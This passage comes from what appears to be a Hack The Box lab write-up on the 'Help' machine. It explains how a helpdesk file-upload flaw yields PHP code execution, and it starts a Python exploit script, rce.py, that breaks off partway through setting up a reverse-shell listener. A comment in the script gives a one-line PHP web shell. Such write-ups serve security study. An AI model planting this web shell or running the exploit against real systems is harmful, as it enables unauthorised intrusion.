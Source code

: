 What we can conclude?

The file is being uploaded, even the error message been shown to us.

The name of the file will be `UPLOAD_DIR/tickets/HASHED.php`

So we can make a script to get it working and achieve some malicious php code on it.

Here the archive we "upload" before

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-04-HackTheBox-Help/2021-09-04-HackTheBox-Help%2010:01:20.png)

And here the code execution

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-04-HackTheBox-Help/2021-09-04-HackTheBox-Help%2010:01:32.png)

Because of the Captcha, we cannot automate the upload part, what is really boring. But we can reproduce the steps after get it.

There are several [CVEs](https://www.exploit-db.com/exploits/40300) already set to this vulnerability, you can look them and be happy. I'll try to make it to learn how to explore this kind of vulnerability.

We will use our skeleton script to start mouting our functions to trigger it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-04-HackTheBox-Help/2021-09-04-HackTheBox-Help%2010:42:41.png)

rce.py

```py
#!/usr/bin/python3
# Date: 2021-09-07
# Exploit Author: 0x4rt3mis
# Hack The Box - Help
# Reference: https://www.exploit-db.com/exploits/40300

import argparse
import requests
import sys
import datetime
import time
import hashlib
import socket, telnetlib
from threading import Thread
import threading
import base64
import urllib.parse

''' Setting up something important '''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

# You must upload manually a file on the server with the content
# <?php system($_REQUEST["cmd"]); ?>
# After it, run the python script, to get it working and get a reverse shell on the box
# Example: python3 rce.py -t 10.10.10.121 -f cmd.php -lport 5555 -lip 10.10.14.14

'''Here come the Functions'''

# Setar o handler
def handler(lport,rhost):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %rhost) 
```